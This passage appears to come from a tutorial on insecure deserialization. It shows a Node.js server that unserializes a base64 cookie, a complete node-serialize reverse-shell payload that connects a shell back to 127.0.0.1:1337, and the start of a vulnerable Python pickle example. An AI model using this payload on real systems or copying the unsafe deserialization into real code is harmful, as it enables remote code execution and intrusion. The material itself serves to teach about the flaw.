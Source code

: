 ```js
      res.cookie('profile', "eyJ1c2VybmFtZSI6ImFkbWluIiwiY29tcGFueSI6ImtvbmR1a3RvIiwibG9jYXRpb24iOiJjbG91ZGJhbmsifQ==" , {
         maxAge: 900000,
         httpOnly: true
      });
      res.send("Hello stranger");
   }
});

app.listen(3000);

```

The above program creates a server that listens on port 3000. In the following excerpt:

```js
var str = new Buffer(req.cookies.profile, 'base64').toString();
var obj = serialize.unserialize(str);
```

The server decodes the base64 encoded cookie and then deserializes it with the `serialize.unserialize()` function. The server code being vulnerable and allows an attacker to execute code remotely.

For example, an attacker can spawn a reverse shell with the following payload:

```
{"rce":"_$$ND_FUNC$$_function() { var net = require('net'); var spawn =
require('child_process').spawn; HOST = \"127.0.0.1\"; PORT = \"1337\";
TIMEOUT = \"5000\"; if (typeof String.prototype.contains === 'undefined') { 
String.prototype.contains = function(it) { return this.indexOf(it) != -1;
}; } function c(HOST, PORT) { var client = new net.Socket();
client.connect(PORT, HOST, function() { var sh = spawn(\"sh\", []);
client.write(\"Connected!\"); client.pipe(sh.stdin);
sh.stdout.pipe(client); sh.stderr.pipe(client); sh.on('exit',
function(code, signal) { client.end(\"Disconnected!\"); }); });
client.on('error', function(e) { setTimeout(c(HOST, PORT), TIMEOUT); }); }
c(HOST, PORT);}( )"}
```

Base64 encoding the above payload and putting it as the cookie value of the request will create a reverse shell to `127.0.0.1` on port `1337`.

## Python

The most common use of deserialization in python is via the `pickle.loads()` function. Consider the following server code:
```python
import pickle
import binascii
from base64 import urlsafe_b64decode
from flask import Flask
from flask import request, jsonify

app = Flask(__name__)


@app.route('/', methods = ['GET', 'POST'])
def user():
    if request.method == 'GET':
        return jsonify({"message":"Hello World!"})

        
    if request.method == 'POST':
        try:
            data = request.form 
            decoded = urlsafe_b64decode(data['payload'])
```